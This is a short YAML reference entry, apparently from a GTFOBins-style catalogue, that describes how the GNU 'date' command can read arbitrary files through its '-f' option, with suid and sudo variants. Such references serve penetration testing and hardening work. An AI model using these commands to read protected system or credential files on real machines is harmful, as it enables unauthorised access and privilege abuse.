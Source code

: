 ```yaml
---
name: date
description: |
  Each line is corrupted by a prefix string and wrapped inside quotes, so this may not be suitable for binary files.

  This only works for the GNU variant of `date`.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        date -f $LFILE
  suid:
    - code: |
        LFILE=file_to_read
        ./date -f $LFILE
  sudo:
    - code: |
        LFILE=file_to_read
        sudo date -f $LFILE
---
```

